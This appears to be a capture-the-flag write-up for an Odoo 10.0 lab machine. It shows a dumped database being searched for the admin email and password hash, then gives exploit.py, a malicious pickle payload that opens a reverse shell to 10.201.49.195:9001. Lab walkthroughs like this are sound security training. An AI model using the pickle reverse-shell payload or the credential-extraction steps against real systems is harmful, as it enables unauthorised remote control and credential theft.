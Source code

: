 <br>
<br>

manage Database

<img width="690" height="260" alt="image" src="https://github.com/user-attachments/assets/b90176e1-5bbf-4813-8f18-ba1415e1ab39" />

Backup

<img width="693" height="469" alt="image" src="https://github.com/user-attachments/assets/15a73aa1-4872-42ce-ac80-d3eb386a705c" />


<img width="678" height="133" alt="image" src="https://github.com/user-attachments/assets/afdf91a3-a9e7-427c-9fe7-fdee7e6d51d0" />


<img width="732" height="200" alt="image" src="https://github.com/user-attachments/assets/b6431708-bca5-4340-b103-b78bd2b808f5" />


<img width="474" height="123" alt="image" src="https://github.com/user-attachments/assets/6ff5b85b-e8aa-4da6-a08a-8f6bb0844787" />

```bash
:~/Obscure# grep -Ei "*@antisoft\.thm" dump.sql
3	Administrator	1	\N	\N	\N	2022-07-23 10:51:25.449364	0	t	\N	\N	Administrator	\N	\N	\N	\N	\N	\N	f	\N	admin@antisoft.thm	f	\N	en_US	\N	\N	\N	f	2022-07-23 10:52:10.087949	\N	\N	1	f	1	\N	\N	\N	contact	f	\N	\N	3
1	t	admin@antisoft.thm		1	3	\N	f	1	\N	\N	2022-07-23 10:52:10.087949	<span data-o-mail-quote="1">-- <br data-o-mail-quote="1">\nAdministrator</span>	$pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag
```

```bash
echo '$pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag' > Hash
```



```bash
Odoo 10.0-20190816 (Community Edition)
```

<img width="744" height="363" alt="image" src="https://github.com/user-attachments/assets/4ddd92d3-854b-48db-aaca-a945992b3777" />


<p>exploit.py</p>



```bash
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        payload = 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'10.201.49.195\',9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\'sh\')"'
        return (os.system, (payload,))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```
